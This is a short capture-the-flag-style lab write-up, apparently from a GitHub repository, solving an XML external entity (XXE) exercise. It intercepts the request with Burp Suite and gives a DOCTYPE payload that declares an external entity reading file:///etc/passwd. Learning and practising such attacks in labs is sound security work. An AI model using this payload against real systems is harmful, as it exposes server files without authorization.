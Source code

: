 ### First Exercise

![problem.PNG](/assets/XXE/First/problem.PNG)


##### **To do**
```
To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file. 
```

1. View the petition with **Burp Suite**
   
![petition.PNG](/assets/XXE/First/petition.PNG)



2. You need to declare a entity to get content of `/etc/passwd`

```xml
<!DOCTYPE est [ <!ENTITY evil SYSTEM "file:///etc/passwd"> ] >
```

**Explanation**

![explanation.PNG](/assets/XXE/First/explanation.PNG)


3. Put the entity on the xml three

![entity.PNG](/assets/XXE/First/entity.PNG)

**Output**

![output.PNG](/assets/XXE/First/output.PNG)